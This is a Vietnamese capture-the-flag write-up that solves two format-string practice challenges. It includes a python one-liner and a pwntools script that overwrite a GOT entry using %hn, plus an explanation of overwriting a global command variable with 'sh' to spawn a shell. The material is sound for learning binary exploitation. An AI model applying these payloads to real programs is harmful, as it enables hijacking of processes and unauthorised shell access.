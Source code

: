 ![image](https://hackmd.io/_uploads/SyGG-svDa.png)

có thể thấy bắt đầu từ %x thứ tư ta có thể lấy được giá trị đã nhập vào

```python=
 python -c 'print "\x18\xa0\x04\x08" + "%33943x%4$hn"' | ./Formatstring-write-got-without-leak 
```

![image](https://hackmd.io/_uploads/SkLZJmPw6.png)

hoặc:
```python=
#!/usr/bin/python3.7

from pwn import *
context.binary = exe = ELF('./Formatstring-write-got-without-leak')

p = process(exe.path)

# input()

payload = b'\x18\xa0\x04\x08'
# payload += b'sh'
payload += f'%{33943}x%4$hn'.encode()
p.send(payload)

p.interactive()
```

![image](https://hackmd.io/_uploads/Hy5pr7vvT.png)


![image](https://hackmd.io/_uploads/HJYummPDT.png)

và mình được flag là:
**KMA{HOW CAN U BYPASS MY EXIT :(}**

## Formatstring-write-command
![image](https://hackmd.io/_uploads/rkIN6oPPp.png)

mình đọc source code được:
![image](https://hackmd.io/_uploads/rJeibovw6.png)

Chương trình sau khi nhận chuỗi buff vào sau đó xuất chuỗi buff ra (mắc lỗi format string). Sau đó sẽ thực thi câu lệnh ở biến toàn cục.

![image](https://hackmd.io/_uploads/H1OwdjDva.png)


chúng ta thấy biến toàn cục cmd ở địa chỉ **0x0804a040**

Ở đây ta chỉ cần ghi biến cmd thành “sh\x00” là ta sẽ có flag tương tự bài overwrite-short-command. Ở đây ta cần ghi 3 byte và byte sau bằng 0, sh\x00 encode sang hex sẽ là 736800 nhưng vì ghi 1 lần 4 byte và đây là hệ thống little-endian nên giá trị ta cần ghi là 0x00006873. Để dễ dàng tôi đặt địa chỉ cần ghi ở đầu chuỗi (điều này không khuyến khích vì nếu địa chỉ có NULL BYTE sẽ làm cho chuỗi bị đứt) sau đó ghi ra màn hình 
0x00006873-4 kí tự (4 ký tự là địa chỉ cần đi đè ta đã đặt trước đó) sau đó sử dụng %n.
![image](https://hackmd.io/_uploads/SJvBqswD6.png)
